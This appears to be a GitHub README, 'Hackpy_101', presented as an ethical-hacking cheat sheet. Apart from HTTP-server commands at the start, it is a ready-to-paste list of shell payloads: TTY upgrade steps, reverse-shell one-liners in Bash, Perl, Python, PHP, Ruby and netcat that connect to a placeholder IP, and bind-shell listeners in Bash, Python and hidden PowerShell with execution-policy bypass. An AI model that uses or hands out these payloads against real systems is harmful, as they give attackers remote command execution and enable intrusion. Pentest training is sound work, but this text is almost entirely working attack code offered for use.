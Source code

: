 # Hackpy_101
Contains Various one liner scripts of python to help you in the Ethical hacking.

# For HTTP SERVER
Python2 :- python -m SimpleHTTPServer <port>
Python3 :- python -m  http.server <port>
To open a sever on specific IP we use -- bind 
For ex- python -m http.server port --bind <IP> 
If this doesnt work use python2 version.

# For Requesting a Interactive Shells
python -c 'import pty; pty.spawn("/bin/bash")'
This will upgrade a dumb shell to an interactive one
If this doesnt work for you then try doing this step wise\ 

**In reverse shell**\
$ python -c 'import pty; pty.spawn("/bin/bash")'\
Ctrl-Z\
**In Kali**\
$ stty raw -echo\
$ fg\
**In reverse shell**\
$ reset\
$ export SHELL=bash\
$ export TERM=xterm-256color\
$ stty rows <num> columns <cols>

**For Echo**\
echo 'os.system('/bin/bash')'\

**sh**\
/bin/sh -i\

**bash**\
/bin/bash -i\

**Perl**\
perl -e 'exec "/bin/sh";'\

**From within VI**\
:!bash

  
# THIS IS WHAT YOU CALL A CONNECTOR TO A LISTENER
**THIS IS USED FOR REVERSE CONNECTIONS.\
IF YOU DONT KNOW WHAT THIS MEANS --> "GOOGLE IT!!"\
YOU CAN USE EITHER OF THE METHODS, GIVEN THAT THE SPECIFIC LANGUAGE IS INSTALLED IN YOUR SYSTEM**
# BASH
bash -i >& /dev/tcp/IP/PORT 0>&1

# PERL
perl -e 'use Socket;$i="IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# PHP
php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'

# Ruby
ruby -rsocket -e'f=TCPSocket.open("IP",PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# Netcat
nc -e /bin/sh IP PORT

# OTHERS
r"m" /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP port >/tmp/f

# For Bind Shells.\

# For Bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f

# For Python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'

# For Powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
